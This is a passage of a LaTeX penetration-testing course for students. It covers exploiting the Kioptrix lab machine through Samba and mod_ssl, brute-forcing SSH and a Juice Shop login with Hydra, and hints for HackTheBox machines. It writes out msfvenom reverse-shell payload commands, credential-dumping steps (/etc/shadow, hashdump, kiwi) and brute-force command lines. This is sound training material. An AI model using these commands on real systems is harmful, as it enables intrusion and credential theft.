    \includegraphics[width=0.8\textwidth]{images/usesmbversion.png}
    \caption{The output of the exploit in the msfconsole}
    \label{fig:usesmbversion}
\end{figure}
Behold:
\begin{itemize}
    \item \tt{Unix (Samba 2.2.1a)}
\end{itemize}
We may have known that there was an open SMB port before, but we did \textit{not} know the specific verison we just discovered here! Our attack possibilities have just gotten a lot more promising.

\subsubsection{SMB enumeration with smbclient}

We know about the version of the SMB service, but what about the actual shares on it? Can we even access anything at this point? Let's use \tt{smbclient} to find out!:
\begin{itemize}
    \item Edit your SMB config, at \tt{/etc/samba/smb.conf}, with your favorite text editor (*wink* VIM) and add the following lines under `\tt{[global]}':
    \begin{itemize}
        \item \tt{client min protocol = CORE}
        \item \tt{client max protocol = SMB3}
    \end{itemize}
    \item \tt{\$ smbclient -L \textbackslash \textbackslash \textbackslash \textbackslash<target IP>}\footnote[2]{Why the four back-slashes? Because in the terminal, a \textbackslash is an {\bfseries escape character}. Meaning, two \textbackslash s would be interpreted as 1.}
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.8\textwidth]{images/smbclient_k.png}
    \caption{Even with a blank password, we are given access to share names, types, and workgroups!}
    \label{fig:smbclient_k}
\end{figure}
\pagebreak

What are we waiting for? Let's try to connect to these shares and see what happens!
\begin{itemize}
    \item \tt{\$ smbclient \textbackslash \textbackslash \textbackslash \textbackslash <target IP>\textbackslash \textbackslash ADMIN\$}
    \item \tt{\$ smbclient \textbackslash \textbackslash \textbackslash \textbackslash <target IP>\textbackslash \textbackslash IPC\$}
\end{itemize}
Much to our disappointment, the \tt{ADMIN\$} share was not accessible with a blank password ({\bfseries anonymous login}). But what about the \tt{IPC\$} share?
\\
\begin{figure}[h]
    \centering
    \includegraphics[width=0.7\textwidth]{images/smblsfail.png}
    \caption{SMB console opened on the \tt{IPC\$} share}
    \label{fig:smblsfail}
\end{figure}
\\
After attempting an anonymous login, we were actually placed into an SMB console this time! Referring to the above picture, however, we don't have access to the \tt{ls} command through this ashare, meaning we have reached a temporary dead end.
\\
\\
However, we still have some investigating to do in terms of the vulnerability of this SMB version, so keep this enumeration process in mind. SMB attack paths are often very promising ;)

\subsection{Enumerating SSH}


Recall from figure \ref{fig:nmapk1} that the victim machine had an open port \tt{22}, running OpenSSH version 2.9.p2. Like was said before, SSH is typically not a common service for security issues to be present. After all, this is quite literally the protocol that most directly puts you in control of a {\bfseries terminal shell}; robustness and stability are critical on SSH for the millions of devices that use it around the world. Nevertheless, let's try connecting through it.
\begin{itemize}
    \item \tt{\$ ssh <target IP>}
\end{itemize}
As you will quickly see, it fails upon trying due to to \tt{no matching key-exchange method found}. Essentially, we don't have the requirements to simply connect to it, but there is some more playing around we can do.
\pagebreak

\begin{itemize}
    \item \tt{\$ ssh <target IP> -oKexAlgorithms=+diffie-hellman-group1-sha1}
\end{itemize}
Okay... there's a bit to digest there. But don't be intimidated, let's dissect the stuff after the IP:
\begin{itemize}
    \item \tt{-o}: ``options.'' We specify this parameter to indicate that we want to add some options to our ssh connection attempt.
    \item \tt{KexAlgorithms}: ``Key exchange algorithms.'' To gain access, we need to use a key for communication to be \textit{encrypted}. But we also need an algorithm to \textit{agree} on the key!\footnote[2]{This involves a lot of insanely complicated mathematics, which is why it will not be elaborated on too much here.} From the output of the first ssh, connection, we see their '\tt{offer}' as well. Thus, we will specify the algorithm to match the one this SSH service is trying to use.
    \item \tt{diffie-hellman-group1-sha1}: The name of the key exchange algorithm itself, in this case: the \tt{diffie-hellman} exchange algorithm, using the \tt{sha1} hashing function.
\end{itemize}
After passing this, we are still denied. Note teh new \tt{offers} that we received this time, however, and run the same command with one of their offered \tt{cipher} options:
\begin{itemize}
    \item \tt{\$ ssh <target IP> -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc}
    \item \tt{-c}: ``cipher.'' As in, the specific method used to encrypt the shell communication.
    \item \tt{aes128-cbc}: ``Advanced Encryption Standard, 128-bit, Cipher Block Chaining mode.'' To put it shortly, this simply specifies the encryption algorithm/standard (AES), its strength (128-bit), and the \textit{mode} it uses.
    \begin{itemize}
        \item Want to learn more about cryptography? Consider taking the {\bfseries CompTIA Security+} through your school to get a broad conceptual understanding of this and many other infosec topics!
    \end{itemize}
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/sshk.png}
    \caption{Successful SSH connection established}
    \label{fig:sshk}
\end{figure}

\textit{Boom}. We have now established and secured our connection to match the victim machine, and are presented with a password prompt... no anonymous login avaiable here! And that's about it in terms of enumaration. As you can see, SSH isn't necessarily your go-to protocol for enumerating and reconnaissance, but we may very well be able to brute force this login later on!
\pagebreak
        
\subsection{Our reconnaissance so far}

We've come a long way on learning how to gather information on a target. Take a moment to go over what we've done so far.

\begin{itemize}
    \item Nmap scanning
    \begin{itemize}
        \item \tt{port 22/tcp | open | ssh | \hl{OpenSSH 2.9p2 (protocol 1.99)}}
        \item \tt{port 80/tcp | open | http | \hl{Apache httpd 1.3.20} | ((UNIX) Red-hat/Linux) | \hl{mod\_ssl/2.8.4b} | OpenSSL/0.9.6b}
        \item \tt{port 139/tcp | open | netbios-ssn | Samba smbd (workgroup: hMYGROUP)}
    \end{itemize}
    \item Enumerating HTTP/HTTPS ({\bfseries Nikto and dirbuster output})
    \begin{itemize}
        \item \tt{+ Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392}
        \item \tt{\hl{+ modssl/2.8.4 - modssl 2.8.7 \& lower are vulnerable to a remote buffer overflow, allowing a remote shell.}}
        \item \tt{+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST}
        \item Various directories, such as \tt{/test.php} and \tt{/usage}.
    \end{itemize}
    \item Enumerating SMB ({\bfseries smbclient output})
    \begin{itemize}
            \item \tt{[*] 192.168.0.124:139 - ... Unix \hl{(Samba 2.2.1a)}} (Metasploit output)
        \item {\bfseries smblcient output}: We listed out out \tt{Sharenames} and found the \tt{IPC\$} share as well as the \tt{ADMIN\$} one. We were able to connect to the \tt{IPC\$} through a blank password ({\bfseries \hl{anonymous login}}), but could not actually execute useful commands such as \tt{ls}.
    \end{itemize}
    \item Enumerating SSH
    \begin{itemize}
        \item Successfully established the cryptographic methods of shell communication, and got to the SSH login prompt: \tt{<your username>@102.168.0.124's password:}. 
    \end{itemize}
\end{itemize}
\begin{center}
\vspace{2cm}
After getting this far, congratulate yourself! The information gathering phase is now {\bfseries over}. 

Now it's all about picking our attack path! With this said, I have highlighted the ``juiciest'' vulnerabilities above. Let's try to pick one.
\end{center}
\pagebreak

In order of attractiveness, we are going to see what we can find in terms of exploits for the following:
\begin{enumerate}[label=\textbf{\arabic*}.]
    \item mod\_ssl 2.8.4 (running on HTTP)
    \item Apache httpd 1.3.20,
    \item Samba 2.2.1a,
    \item OpenSSH 2.9p2
\end{enumerate}
Nothing left know but to simply look these up:

\begin{figure}[h]
    \centering
    \includegraphics[width=0.8\textwidth]{images/modssl_search.png}
    \caption{Some very promising results for the mod\_ssl search}
\end{figure}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.8\textwidth]{images/samba221a_search.png}
    \caption{More promising results from the SMB service version}
\end{figure}
\pagebreak

\begin{figure}[h]
    \centering
    \includegraphics[width=0.6\textwidth]{images/openLuck.png}
    \caption{Github page for OpenLuck, for use agains SMB \textless{} 2.2.7}
    \label{fig:openLuck}
\end{figure}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.6\textwidth]{images/OpenLuckgithub.png}
    \caption{Source code for OpenLuck, written in C. Buffer overflows can be pretty complex!}
\end{figure}

As shown above, search engines are absolutely your friend when it comes to exploitation. But were you to need an offline way to search for exploits, \tt{searchsploit} is a terminal command that lets you look through all pre-installed metasploit exploits:
\begin{itemize}
    \item \tt{\$ searchsploit <search query>}, e.g. \tt{search SMB}
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/searchsploit.png}
    \caption{Searchsploit results for `SMB.'}
\end{figure}
With these exploit options in mind, let's quickly go over a few last scanning tools.
\pagebreak

\subsection{Additional scanning tools}

\subsubsection{Masscan}

Masscan was built to scan the entire internet ``really fast.'' Generally, it's just a good port scanner to use if speed is your main priority, as long as you use the right settings. Thus, it can actually be faster than nmap.
\begin{itemize}
    \item \tt{masscan -p1-65535 --rate <\# of threads> <address>}
\end{itemize}

\subsubsection{Scanning with Metasploit}

This one is an OK option, mainly for when nmap or masscan aren't installed. Open up \tt{msfconsole}, and search for:
\begin{itemize}
    \item \tt{search portscan}
    \item \tt{use scanner/portscan/syn}
\end{itemize}
After setting the \tt{RHOSTS} and the \tt{PORTS}, run the exploit and you will perform a (kind of slow) port scan.

\subsubsection{Nessus}

This is a big one in the pen-testing field. Will most definitely be used at some point, and possibly even run at the start of the pen-test. Get started by going to the Nessus download from 
\begin{itemize}
    \item \url{https://www.tenable.com/downloads/nessus}
\end{itemize}
Follow the instructions for the Nessus Essentials installation, and let the installation complete.

Afterwards, take a moment to look around at the scan options that Nessus gives us. Start by performing a `basic' network scan and letting it fully run against all ports. Take a loot at the other options in the meantime.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.7\textwidth]{images/nessusk2.png}
    \caption{Nessus vulnerability discoveries}
\end{figure}

And just like that, you have a consolidated list of potential vulnerabilities, this time through an all-encompassing web program. Although this is very convenient, do not rely purely on this! Use this in addition to your own enumeration and reconaissance.
\pagebreak


\section{Exploitation basics}
\normalsize It is time for our hard work on reconaissance to finally start paying off. But first, know the following:
\\
\begin{center}
{\bfseries Reverse Shells vs. Bind Shells}
\end{center}
\begin{itemize}
    \item {\bfseries Bind Shell}: A remote shell opened up by the \textit{attacker machine} by accessing a listening port \textit{on the victim machine.} The victim is the {\bfseries server} and the attacker is the {\bfseries client}.
    \item {\bfseries Reverse Shell}: The \textit{victim machine} connects to a listening port on the \textit{attacker machine} this time, upon which a remote shell on the victim is opened up by the attacker. The victim is the {\bfseries client}, and the attacker is the {\bfseries server}.
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.7\textwidth]{images/bindshell.jpg}
    \caption{Simple representation of a bind shell}
\end{figure}

\begin{figure}/[h]
    \centering
    \includegraphics[width=0.7\textwidth]{images/reverseshell.jpg}
    \caption{Simple representation of a reverse shell}
\end{figure}

\begin{center}
{\bfseries Staged vs. Non-staged payloads}
\end{center}
\begin{itemize}
    \item {\bfseries Staged payload}: A payload (exploit module) that divides the exploit shell code into stages, e.g.
    \begin{itemize}
        \item \tt{windows/meterpreter/reverse\_tcp}
    \end{itemize}
    \item {\bfseries Non-Staged payload}: A payload that sends exploit shell code all at once.
    
    e.g.
    \begin{itemize}
        \item \tt{windows/meterpreter\_reverse\_tcp}
    \end{itemize}
\end{itemize}
\pagebreak

\subsection{Gaining root with Metasploit}
With this knowledge of shells and payloads in mind, go ahead and open up \tt{msfconsole}.

Did you pick an exploit out of the ones from section 10? If not, pick one now and load it up on \tt{msfconsole} (if it's on there)!
\\
\\
As an example, the \tt{trans2open} SMB exploit will be shown here, which looks to work on the Samba SMB version on the victim machine (2.2.X)

\begin{figure}[h]
    \centering
    \includegraphics[width=0.8\textwidth]{images/trans2openoptions.png}
    \caption{Metasploit options upon loading up \tt{linux/samba/trans2open}}
    \label{fig:trans2openoptions}
\end{figure}

When you're read, simply type in \tt{exploit}. The \textit{Metasploit framework} is automated, therefore you will see it try out different payloads, having them `die' out until one of them is able to eventually ``{\bfseries crack} a shell.''
\\
\\
For sake of demonstration, stop the \tt{exploit} mid-way through (\textit{CTRL} + \textit{C}). You'll notice in the bit of output that we got, multiple \tt{meterpreter} (short for {\bfseries meta-interpreter}) sessions were started and immediately died. Recall the default payload for the exploit from figure {\ref{fig:trans2openoptions}}.

\begin{itemize}
    \item ` \tt{Payload options (linux/x86/meterpreter/reverse\_tcp):} '
    \begin{itemize}
        \item Knowing what you know, is this a {\bfseries staged} or a {\bfseries non-staged} payload? In other words, is the exploit shell code being sent all at once, or in stages?
    \end{itemize}
\end{itemize}

Ultimately, it is the ' \tt{\textbackslash} ' between \tt{meterpreter} and \tt{reverse\_tcp} that indicates the fact that this is a {\bfseries staged} payload. What if we execute the exploit with a {\bfseries non-staged}\footnote[2]{Hint: to find non-staged alternatives for your current exploit, type in \tt{use linux/x86/} and press the \textit{TAB} key twice.} payload instead?

\begin{figure}[h]
    \centering
    \includegraphics[width=0.5\textwidth]{images/newtrans2openpayload.png}
    \caption{Successful exploitation with the non-staged payload, \tt{linux/x86/shell\_reverse\_tcp}}A
    \label{fig:nonstaged-modssl}
\end{figure}
\pagebreak

\subsection{Manual exploitation}

Don't get it twisted, if have a vulnerability that you can exploit with Metasploit, it is not only easier, but more practical to use it than to do it `manually.'
\\
\\
With that said, being a well-rounded penetration tester involves knowing many different avenues to get to the same result, and the exploitation process is no exception\footnote[2]{Not to mention: if you're considering taking a pen-testing certification exam such as the \textit{OSCP}, your access to the \tt{msfconsole} is severely limited if not prohibited.}. Keeping in mind the vulnerable \textit{SSL}\footnote[1]{Secure Sockets Layer, the go-to encryption protocol for web traffic.} interface -- by the name of \tt{mod\_ssl 2.8.4} -- let's rewind back to the exploit publication from figure \ref{fig:openLuck} on page \pageref{fig:openLuck}.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.8\textwidth]{images/openLuckURL.png}
    \caption{The page for the most recent Apache \tt{mod\_ssl} 2.8.X exploit}
\end{figure}

Along with the generously updated exploit (the one on \textit{exploit-db.com} is apparently no longer working), we are provided with documentation on how to download, compile, and run it. Keeping your pen-testing report organisation in mind, download it to the appropriate location and follow the instructions.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.4\textwidth]{images/compiledOpenLuck.png}
    \caption[GCC caption]{Our exploit after being compiled with GCC\protect\footnotemark[3]}
    \label{fig:gcctrans2open}
\end{figure}
\footnotetext[3]{GNU Compiler Collection}

Run the exploit with \tt{./OpenFuck} to see how to use it. The final command for us should look something like:
\begin{itemize}
    \item \tt{\$ ./OpenFuck <offset> <IP> -c 40}A
\end{itemize}
But how do we know which offset out of the nearly 100 to pick? Luckily for us, our in-depth enumeration cuts this guesswork out completely. All we need to know is the Linux \textit{distribution} of the victim machine, as well as the \textit{Apache} version.
\pagebreak

Go back through your notes so far, find this information, and figure out the right offset to use by using two little tricks with the terminal: {\bfseries grep}, and {\bfseries pipelines}.

\begin{itemize}
    \item \tt{\$ ./OpenFuck | grep '<Apache version>' | grep '<Linux distro>'}\footnote[2]{When typing in the versions, make sure you match the syntax of the exploit when you run \tt{./OpenFuck}}
\end{itemize}
What we just did here is an example of \textit{filtering} command line output with {\bfseries grep}. We used {\bfseries pipelines} (` \textpipe ') to indicate that we want to feed the output from one command into another one right after.
\\
\
There will likely be {\bfseries 2} offsets that you end up seeing (represented by 0x\#\#). Select one (either will probably work) and run it in accordance with the syntax on page \pageref{fig:gcctrans2open}.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.6\textwidth]{images/manualtrans2open.png}
    \caption{Success! We have popped this shell manually }
    \label{fig:manualtrans2open}
\end{figure}

You just got root access into a remote machine without using Metasploit, congrats!
\\
\\
Some commands to keep in mind once you gain shell access:
\begin{itemize}
    \item What user am I logged in as?: \tt{whoami}
    \item What directory am I currently in?: \tt{pwd}
    \item Who are the users on this machine?: \tt{cat /etc/passwd}\footnote[1]{Note that many of these are users for system services. `Regular' users are towards the bottom.}
    \item What are the user password hashes on this machine?: \tt{cat /etc/shadow}
\end{itemize}
\pagebreak

\subsection{Brute-force attacks}
\label{subsec:bruteforce}

Previously, we floated the idea of {\bfseries brute-forcing} a login prompt when we were discussing SSH ({\bfseries Secure Shell}) on page \pageref{fig:sshk}. Usually, SSH is not much of a go-to attack path in pen-testing. But given weak enough security policies, attacking via brute-force may be a worthy option.
\\
\\
We will be taking advantage of two brute-forcing options: {\bfseries Hydra} and {\bfseries Metasploit}.

\begin{itemize}
    \item \tt{hydra -l root -P <passwords file> ssh://<victim IP>:8080 -t 4 -V}
    \item \tt{msfconsole}, then \tt{search ssh}, and finally, \tt{use scanner/ssh/ssh\_login}
    \begin{itemize}
        \vspace{-0.4cm}
        \item use the \tt{options} command to set the necessary parameters (RHOSTS, PASS\_FILE, USERNAME, THREADS)
    \end{itemize}
\end{itemize}
Find a good password list in the \tt{/usr/share/wordlists/metasploit/} directory with the `double-tab' method mentioned in the footnote of page \pageref{fig:nonstaged-modssl}, and run the brute-force!
\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/hydra-brute-ssh.png}
    \caption{SSH login brute-forcing with Hydra}
    \label{fig:hydra-brute-ssh}
\end{figure}

\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/msf-brute-ssh.png}
    \caption{SSH login brute-forcing with Metasploit}
    \label{fig:msf-brute-ssh}
\end{figure}

After running it for a bit, it becomes clear that the SSH login for this machine may not be simple enough to be present in the wordlist we selected (wow, a secure configuration on this machine for once?). Nevertheless, that's two more tools added to our toolbox. Making fast progress!
\pagebreak

\subsection{Password Spraying \& Credential Stuffing}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.5\textwidth]{images/spraying-stuffing-diagram.png}
    \caption{The general concept of password spraying and credential stuffing}
\end{figure}

When we speak of {\bfseries credential stuffing} and {\bfseries password spraying}, we are referring to the usage of breached credentials to exploit a form, such as a login page. Recall back to section \ref{sub2sec:webrecon}, where we introduced Burpsuite along with some its functionality in section \ref{sub2sec:bustingdir}.
\\
\\
To avoid setting up proxy settings through Firefox every time, install the \textit{FoxyProxy} extension:
\begin{itemize}
    \item \url{https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/}
\end{itemize}
Next, set up Burpsuite like usual with the default settings, and start the \tt{intercept} right before attempting to log in to a victim website. We will be using the \tt{Intruder} tools in Burpsuite this time around.

\begin{figure}[h]
    \vspace{1cm}
    \centering
    \includegraphics[width=0.9\textwidth]{images/sample-login-page.png}
    \caption{A simple, insecure login page provided by the UFSIT club}
    \label{sample-login-page}
\end{figure}
\pagebreak

\begin{figure}[h]
    \centering
    \includegraphics[width=0.8\textwidth]{images/sample-burp-intruder.png}
    \caption{Sending a failed login output to the \textit{Intruder} tab}
    \label{sample-burp-intruder}
\end{figure}

Get to the login page, activate the \textit{Intercept} on Burp, and take note of the information shown in the HTTP \textit{POST} request. Send this to the \textit{Intruder} tab and set the payloads needed.
\\
\\
For this demonstration, there is a known email by the name of \tt{admin@juice-sh.op}, and an unknown password. I will set the payload options on the intruder tab and spray passwords from a wordlist text file on Kali.

\begin{figure}[h]
    \centering
    \includegraphics[width=0.8\textwidth]{images/sample-burp-payload1.png}
    \caption{Adding the password payload parameter in the Burp Intruder}
    \label{fig:sample-burp-payload1}
\end{figure}

After adding the payload (the login field you want to brute-force), go the the \textit{Payloads} tab and select the \tt{Load...} option in the \textit{Payload Options} section. Select a wordlist of your choice and run the attack\footnote[2]{Hint: Try using a wordlist that contains default system passwords.}
\pagebreak

\begin{figure}[ht]
    \centering
    \includegraphics[width=0.8\textwidth]{images/sample-burp-attack.png}
    \caption{The Burpsuite password spraying in progress}
    \label{fig:sample-burp-attack}
\end{figure}

Keep in mind that the Burpsuite community edition does not have the features of the Pro version, meaning that the attack will be relatively slow. But think back to section \ref{subsec:bruteforce}, what other brute-forcing tools did we use?
\\
\\
With some clever character escaping and a few additional \tt{hydra} parameters, we can attack the same exact login page \textit{much} faster!
\begin{itemize}
    \color{tt}
    \item 
\begin{verbatim}
$ hydra -l admin@juice-sh.op -P ~/Documents/wordlists/rockyou.txt ufsit.club
http-post-form "/#/login:{\"email\"\:\"^USER^\".\"password\"\:\"^PASS^\"}:Invalid
email or password." -V
\end{verbatim}
    \color{black}
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/hydrajuiceWORKED.png}
    \caption{Brute-forcing the login page with \tt{hydra}!}
    \label{fig:hydrajuiceWORKED}
\end{figure}


\par\noindent\rule{\textwidth}{0.4pt}
\begin{center}
And just like that, we are {\bfseries DONE} our exploitation of \textit{Kioptrix}, our first vulnerable machine!
\end{center}
\par\noindent\rule{\textwidth}{0.4pt}
\pagebreak


\section{Mid-course capstone}


\begin{center}
    {\bfseries Hack the Box - HTB}
\end{center}
This mid-course capstone involves putting all previously covered skills to practice. Enumeration and reconaissance will paly a huge role, as well as the ability to identify and deploy an exploit. 
\\
\\
To complete this course, a VIP {\bfseries HackTheBox} account is needed, which you have if you are part of CBHS Cybersec. Follow the setup tutorial on \url{https://app.hackthebox.eu/}, and prepare to go through 10 different beginner-oriented machines to pwn! 
\\
\\
The content in this section will not consist of detailed write-ups of every intricacy in every machine, but rather, elements of them that \textit{stand out} or are worth highlighting.

\begin{center}
\subsection{Legacy}
\end{center}

What ports are open on this machine? What kind of service versions is it running?
\\
\\
{\bfseries SMB (Ports 139/445)}:

Interestingly enough, {\bfseries there is no anonymous login} enabled on this machine's SMB service.
In other words, enumerating shares with \tt{smbclient -L \textbackslash \textbackslash \textbackslash \textbackslash <IP> \textbackslash \textbackslash} will not return anything!
\\
\\
As a hint: think about another way we gathered SMB service information.
\\
\\
{\bfseries Operating System}:

What OS is this system running? Is there anything that might help you track down the exact version (or \textit{service pack}!)
\\
\\
{\bfseries Post-exploitation}:\footnote[2]{One thing to note: if you end up using Metasploit, make sure your `LHOST' is set to your tunnel IP, rather than your regular IP. e.g. \tt{set LHOST tun0}}

Some useful commands once gaining a shell:
\begin{itemize}
    \item \tt{help}: Meterpreter has its own commands, many of which resemble Bash commands.
    \item \tt{getuid}: Similar to \tt{whoami}. Shows you, like one would assume, your \textit{authority} on the machine.
    \item \tt{sysinfo}: Make sure the machine architecture matches the meterpreter shell, allows you to do more with the shell.
    \item \tt{ps}: Show running processes on the machine.
    \item \tt{webcam\_stream}: Play a video stream from the specified webcam.
    \item \tt{hashdump} A dump of user hashes on the machine. Useful to take them externally and crack them with tools like \textit{John The Ripper}.
\end{itemize}
Keep in mind, for {\bfseries HackTheBox} machines, the goal is to find a \textit{root} and a \textit{user} flag, usualy in the form a text file by that name somewhere on the machine. Look around and have fun!
\pagebreak

\begin{center}
\subsection{Lame}
\end{center}

Just like before: what is open on this machine? What is it running? A lot more than before...
\\
\\
{\bfseries FTP (Port 21)}

If you forgot what the \textit{File Transfer Protocol} (FTP) is, feel free to review Udemy \href{https://www.udemy.com/course/practical-ethical-hacking/learn/lecture/16907282#overview}{Video \# 11}
\\
\\
What type of actions can you do with the FTP configuration? How about the version?\footnote[1]{Hint: Do not get stuck down a rabbit hole. If something looks like it should work but it repeatedly fails, move on.}
\\
\\
{\bfseries SSH (Port 22)}

SSH rarely has version exploits, but still check! 
\\
\\
{\bfseries SMB (Ports 139/445}

Samba (SMB) is often very promising. What version does it run here?
\\
\\
{\bfseries Distccd (port 3632)}

Tool for speeding up compilation... maybe this version is vulnerable?
\\
\\
{\bfseries Post-exploitation}\footnote[2]{Again, don't forget to set your LHOST to the tunnel interface! (tun)}

If you used Metasploit this time around, you were likely placed in a UNIX shell. Some commands to keep in mind:
\begin{itemize}
    \item \tt{whoami}: A pretty universal command, worth checking if it's there.
    \item \tt{hostname}: The name of the machine.
    \item \tt{pwd}: Print working directory
    \item \tt{updatedb}: Update the file location database (use before \tt{locate})
    \item \tt{locate}: Locate a directory or a file.
    \item `{\bfseries Unshadowing}':
    \begin{itemize}
        \item Taking the \tt{/etc/shadow} hashes, we can run the \tt{unshadow} program in Kali to remove the `\tt{x}' in the \tt{shadow} file, and reveal the password hashes. 
        \item These hashes can then be cracked in a program such as \tt{hashcat}.
    \end{itemize}
    \item Basic network commands such as \tt{arp} and \tt{ifconfig}.
\end{itemize}
\pagebreak

\begin{center}
\subsection{Blue}
\end{center}

{\bfseries Netbios/SMB, again}

The victim machine is once again running SMB. Can we find out more about the version this time? Can we access any useful files through SMB itself? Does the SMB recon reveal any other machine info?
\\
\\
{\bfseries Operating System}

Is there anything special about this specific OS or its version?
\\
\\
{\bfseries More post-exploitation}
\begin{itemize}
    \item \tt {hashdump}: Once again, but this time for Windows
    \item Load  commands: e.g. \tt{load kiwi} to manage and dump credentials.
    \item \tt{background}: Puts your current shell connection in the background to load it up later, or to configure it with a post-exploitation module
    \begin{itemize}
        \item By default, the first background session goes into session number \tt{1}.
    \end{itemize}
    \item \tt{session -i 1}: Loads up a shell that was backgrounded, letting you interact with it again.
    \item \tt{download}: Downloads a file on the remote host to your current working directory.
\end{itemize}

\begin{figure}[h]
    \vspace{2cm}
    \centering
    \includegraphics[width=0.7\textwidth]{images/wanancry.jpg}
    \caption{A picture of the WannaCry exploit that affected millions of outdated Windows computers in 2017. (\textit{Could this have anything to do with this machine?...})}
\end{figure}

\pagebreak

\par\noindent\rule{\textwidth}{0.4pt}
\begin{center}
    {\bfseries INTERLUDE: MSFVENOM}\footnote[2]{Note: The content on this page is \textit{not} meant for the machines that come before it.}
\end{center}
\vspace*{2cm}
For the past few machines, we've gotten kind of lucky. We were able to successfully enumerate services and Operating Systems, for which we found exploits that abused a flaw in their code.
\\
\\
These flaws were {\bfseries so severe}, in fact, that it allowed the exploits to open up a shell connection from the victim machine to our computer with \textit{relatively little effort} on our part, granting us instant root privileges and giving us total control of the machine.
\\
\\
But will every machine have such enormous flaws in the services/systems that it runs?
\\
\\
\tt{msfvenom} is a command line utility that generates malicious \tt{shellcode} for a wide variety of platforms.
\\
\\
By specifying a payload (e.g. \tt{widows/meterpreter\_reverse\_tcp}), along with an Operating System and a file type (among other options), we are able to create cutsomised executable files.
\\
\\
These files, when executed on a victim machine, will generally establish a connection to a shell, from which we can attempt privilege escalation, data exfiltration, and many other post-exploitation techniques.
\\
\\
Take the following example of malicious payload generation for a Windows victim machine:
\begin{itemize}
    \item \tt{msfvenom -p windows/meterpreter/reverse\_tcp lhost=192.168.0.107 lport=5555 -f}
    
    \tt{exe > /root/Desktop/reverse\_tcp.exe}
\end{itemize}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.1\textwidth]{images/metasploitlogo.png}
    \caption{The \tt{metasploit} logo}
\end{figure}

\vspace*{\fill}
\begin{center}
    {\bfseries END INTERLUDE}
\par\noindent\rule{\textwidth}{0.4pt}
\end{center}
\pagebreak







\begin{center}
\subsection{Devel}
\end{center}

{\bfseries FTP (Port 21)}

The FTP service last time turned out to be a dead end. How about this one? Is there anything you can do once you connect? Maybe manipulating or creating files?...
\\
\\
{\bfseries HTTP (Port 80)}

Pay close attention the the HTTP service that is running. Can you connect to the website? What type of service is it? Is it connected to the service you saw before? And more importantly: how would you abuse such a connection?
\\
\\
{\bfseries Hint:}
This is definitely a harder box! More than likely, you're going to have to try a different method than the past few boxes to get access to a shell. 
\\
\\
What file type/file format does the web service accept? The service itself may not be vulnerable, but what about its configuration? Can you upload files somewhere and make it execute them? 
\\
\\
Remember {\bfseries the tool} we just learned on the previous page...
\\
\\
\\
{\bfseries More post-exploitation}
\begin{itemize}
    \item (Metasploit) \tt{use multi/handler}: If the victim machine runs an exploit, where exactly will it connect to on your end? \tt{multi/handler} is a great option to set up a \textit{listening} port.
    \item \tt{nc -lnvp <port number>}: In case metasploit is not an option for you, \tt{netcat} (or \tt{nc}) is another program that lets you set up a listening port for incoming data traffic.
    \item \tt{background}: Have you established a connection but want to load a post-exploitation module? Keep this command in mind!
    \item (Metasploit) \tt{multi/recon/local\_exploit\_suggester}: Helpful module that scans for applicable post-exploits to a given shell session.
    \item \tt{set LHOST <your HTB tunnel IP>}: With metasploit, the modules you use tend to default your \tt{LHOST} to your \tt{eth0} (regular) IP address. Since you are on a VPN through HackTheBox, you will need to make sure that you modules are configured to use tun0.
    \begin{itemize}
        \item Keep in mind though, not all modules need an LHOST. To make sure yours doesn't, type in \tt{advanced} in metasploit to get a full list of possible module options.
    \end{itemize}
\end{itemize}
\pagebreak

\begin{center}
\subsection{Jerry}
\end{center}

{\bfseries Apache Tomcat (Port 8080)}\footnote[2]{Note: This is actually still the HTTP protocol. However, it doesn't run on the regular port 80 because it offers very specific web services for {\bfseries Java} projects.}

Note the lack of other ports on this machine. This makes the narrowing down of the attack vector a lot simpler for us, so research the service on this port \textit{very} carefully!
\\
\\
Can you access everything on the service right away? Could there be {\bfseries default configurations} in place that you can abuse? This is where research comes into play/
\\
\\
Is the service version vulnerable? If the version itself is not vulnerable, are there things you can access because of a default configuration that can make it execute malicious files?
\\
\\
{\bfseries Some Burpsuite advice:}

If you decide to use Burp to exploit the logins on the page (\textit{this is NOT the fastest way to find a login}), you might realize that there are no \textit{username} and \textit{password} fields on the {\bfseries Intercepter} tab, as requests go through. Previously in this course, we've seen such fields such as:
\\
\begin{itemize}
\item \tt{username:"test",passowrd:"testpass"}
\end{itemize}
So what do we do when they're not there? The thing is... they {\bfseries are} there, but they're encoded. If you right click the intercepted \tt{GET} request and send it to \textit{Decoder}, you will see the decoded login information once you convert it from {\bfseries Base 64} into plaintext. As an example:

\begin{itemize}
    \item From \tt{dXNlcjp0ZXN0cGFzcw==} to \tt{user:testpass}
    \begin{itemize}
        \item And if you have a credential list you want to convert into Base 64 format, try \tt{piping} plaintext into the \tt{base64} command. E.g. \tt{echo "test:test" | base64}
    \end{itemize}
\end{itemize}

{\bfseries Post-exploitation}

Is the current payload uncomfortable to you? Do you want to switch to something like \tt{meterpreter}. On a Windows machine, you can donwload a shell made from your machine by putting a meterpreter shell payload on an HTTP server.
\begin{itemize}
    \item \tt{\$ msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=<your tunnel IP>}
    
    \tt{LPORT=<any unused port, eg 5555> -f exe > exeshell.exe}
    \item \tt{python -m SimpleHTTPServer 80} (on the same directory as the payload we just made)
    \item On \tt{msfconsole}, use \tt{multi/handler} and set the appropriate options, then \tt{run} it to start listening.
    \item On the Windows JSP (JavaServer Pages) shell:
